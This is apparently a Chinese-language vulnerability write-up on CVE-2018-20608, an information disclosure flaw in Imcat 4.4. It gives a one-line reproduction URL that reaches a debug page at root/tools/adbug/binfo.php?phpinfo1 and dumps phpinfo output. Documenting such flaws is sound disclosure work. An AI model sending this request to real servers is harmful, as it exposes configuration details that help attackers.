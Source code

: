 ```yaml
---
title: （CVE-2018-20608）Imcat 4.4 敏感信息泄露
id: zhfly2973
---
```


# （CVE-2018-20608）Imcat 4.4 敏感信息泄露

## 一、漏洞简介

imcat是一套基于PHP的开源建站系统。 imcat 4.4版本中存在安全漏洞。远程攻击者可借助root/tools/adbug/binfo.php?phpinfo1 URI利用该漏洞获取信息。

## 二、漏洞影响

imcat 4.4

## 三、复现过程

```
http://www.0-sec.org/root/tools/adbug/binfo.php?phpinfo1 
```

![image](../img/163d968253f7c36944359c324595b905.png)

## 参考链接

> https://github.com/AvaterXXX/CVEs/blob/master/imcat.md